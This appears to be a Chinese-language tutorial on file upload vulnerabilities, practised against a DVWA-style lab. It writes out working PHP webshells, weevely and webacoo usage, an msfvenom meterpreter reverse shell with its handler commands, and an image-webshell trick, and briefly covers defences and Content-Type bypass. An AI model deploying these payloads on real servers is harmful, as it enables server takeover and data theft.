 # 文件上传漏洞原理与危害

![image-20210616150914588](D:\BaiduNetdiskDownload\安全\文件上传漏洞\文件上传漏洞.assets\image-20210616150914588.png)

文件上传需要关注的点：

1.有没有文件上传功能

2.文件的大小和内容，无限上传文件造成拒绝服务攻击

3.要明白文件的存储位置

危害：

上传webshell控制服务器数据，可以直接接管服务器

# 文件上传漏洞利用

## 检测方法：

1.检测是否可以上传任意文件

2.检查上传限制，是在前端校验还是后端校验

3.检查是否可以知道上传文件的路径

4.检查上传文件是否含有恶意代码

## 写一个PHP一句话木马

php_001.php

```
<?php system($_GET['cmd']); ?>
```

复制文件路径，访问

```
http://daishen.ltd:1111/hackable/uploads/php_001.php
```

![image-20210616154640954](D:\BaiduNetdiskDownload\安全\文件上传漏洞\文件上传漏洞.assets\image-20210616154640954.png)



php_002.php

```
<?php @eval($_POST['cmd']); ?>
```

复制文件路径，访问

```
http://daishen.ltd:1111/hackable/uploads/php_002.php
```

php_003.php

```
<? phpinfo(); ?>
```

复制文件路径，访问

```
http://daishen.ltd:1111/hackable/uploads/php_003.php
```

## kali  weevely 自动生成木马

```
weevely generate 123456 php_004.php
```

上传

```
weevely http://daishen.ltd:1111/hackable/uploads/php_004.php 123456
```

![image-20210616160922358](D:\BaiduNetdiskDownload\安全\文件上传漏洞\文件上传漏洞.assets\image-20210616160922358.png)

## kali  webacoo  自动生成木马

```
webacoo -g -o php_005.php
```

上传

```
 webacoo -t -u http://daishen.ltd:1111/hackable/uploads/php_005.php
```

![image-20210616161501120](D:\BaiduNetdiskDownload\安全\文件上传漏洞\文件上传漏洞.assets\image-20210616161501120.png)

## kali msfconsole  自动生成木马

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.168.101 LPORT=4444 -f raw -o msf_php_webshell.php
```

上传文件

```
../../hackable/uploads/msf_php_webshell.txt
```

打开kali

```
 msfconsole
 use exploit/multi/handler
 set payload php/meterpreter/reverse_tcp
 set LHOST 192.168.168.101
 set LPORT 4444
 show options
 run
 shell
```

访问

```
http://daishen.ltd:1111/hackable/uploads/php_006.php
```

# 文件上传漏洞防御与绕过

## 防御方法

前端校验:检查文件扩展名、content-type

后端校验:检查文件扩展名、检查文件内容，设置文件权限（不允许执行权限）

文件名随机化

沙箱检测

## 绕过

拦截数据包

更改Content-Type: application/octet-stream

image/png

放行

![image-20210616163306549](D:\BaiduNetdiskDownload\安全\文件上传漏洞\文件上传漏洞.assets\image-20210616163306549.png)

图片马制作

```
 cat php_004.php >> 123.jpg
```

